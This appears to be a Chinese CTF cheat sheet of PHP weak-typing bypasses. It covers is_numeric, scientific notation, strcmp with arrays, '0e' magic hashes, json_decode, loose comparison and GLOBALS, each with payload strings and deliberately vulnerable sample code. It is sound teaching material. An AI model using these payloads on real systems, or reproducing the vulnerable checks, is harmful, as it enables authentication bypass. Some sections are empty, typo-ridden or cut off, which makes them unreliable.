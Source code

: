 * [isNumber](#isNumber)
* [数字长度绕过](#数字长度绕过)
* [strcmp](#strcmp)
* [md5](#md5)
* [json_decode](#json_decode)
* [==&===](#==&===)
* [switch](#switch)
* [数字比较](#数字比较)
* [GLOBALS($$) 引用全局作用域中可用的全部变量](#GLOBALS($$) 引用全局作用域中可用的全部变量)
### isNumber
is_numeric()判断是否为数字，因为PHP的弱类型，将数字后面加上空格或者任意一个字符即可绕过.
payload:
```
数字%20
p2=2%20
```
### 数字长度绕过
通过科学计数法绕过
payload:
```
$_GET['p1'] > 99999999 && strlen($_GET['p1']) < 9
p1=1e9
```
### strcmp
strcmp函数比较字符串的本质是将两个变量转换为ascii，然后进行减法运算，然后根据运算结果来决定返回值.
语法：strcmp(string1,string2);
0 - 如果两个字符串相等。当传入的数据类型不是字符串是，报错，并且返回0；

<0 - 如果 string1 小于 string2

>0 - 如果 string1 大于 string2
payload：
```
  if (strcmp($_GET['flag'], FLAG) == 0) 
  flag=[]
```
### md5
PHP在处理哈希字符串时，会利用”!=”或”==”来对哈希值进行比较，它把每一个以”0E”开头的哈希值都解释为0，所以如果两个不同的密码经过哈希以后，其哈希值都是以”0E”开头的，那么PHP将会认为他们相同，都是0
payload:
```
QNKCDZO
    240610708
    s878926199a
    s155964671a
    s214587387a
    s214587387a
     sha1(str)
    sha1('aaroZmOk')  
    sha1('aaK1STfY')
    sha1('aaO8zKZF')
    sha1('aa3OFF9m')
```
### json_decode
输入一个json类型的字符串，json_decode函数解密成一个数组，判断数组中key的值是否等于key的值。虽然key的值我们不知道，但是可以利用0=="string"这种形式绕过
payload:
```
define('key', 'flag{4}');
if (isset($_POST['a'])) {
    $a = json_decode($_POST['a']);
    if ($a->key == $key) {
        echo "flag" . key;
    } else {
        echo "不相等";
    }
 } else{
     echo "a不存在";
 }
a={"key":0}
```
### ==&===
“==”是判断数值是否相等，如果类型不同的进行比较，其会将类型转换成相同的再进行比较.“===”则是判断数值和类型是否相等.
当一个字符串欸当作一个数值来取值，其结果和类型如下:
如果该字符串没有包含'.'，'e'，'E'并且其数值值在整形的范围之内，该字符串被当作int来取值，其他所有情况下都被作为float来取值，该字符串的开始部分决定了它的值
如果该字符串以合法的数值开始，则使用该数值，否则其值为0
payload:
```
<?php  
var_dump("admin" ==0);"admin"转换成0
var_dump("1admin" ==1);"1admin"转成成1
var_dump("2admin" ==2);"2admin"转成成2
var_dump("admin1" ==1);"admin1"转换成0
var_dump("admin1" ==0);
var_dump("0e123456" =="0e4456789");//e是科学计数法。0exx=0*10的n次方
?>
#bool(true)
bool(true)
bool(true)
bool(false)
bool(true)
bool(true)
```
### switch
原理同==
payload:
```
```
### 数字比较
绕过常规数字校验，使用16进制。0x
payload:
```
$one=ord('1');
$nigth=ord('9');
$number='2223454235232546';
for(i=0;i<strlen($number);++i){
$digit=ord(tmp[i]);
if($digit>=$one&&$digit<=$night){
return "false";
}
if($number==$temp){
echo "flag";
}
}



```
### GLOBALS($$) 引用全局作用域中可用的全部变量
```
<?php
include "flag.php";
$a = @$_REQUEST['hello'];
if(!preg_match('/^\w*$/',$a )){
  die('ERROR');
}
eval("var_dump($$a);");
show_source(__FILE__);
?>
```
- 看到了$$a,可能是用超全局变量GLOBALS，于是post一个参数hello=GLOBALS，果然：
```
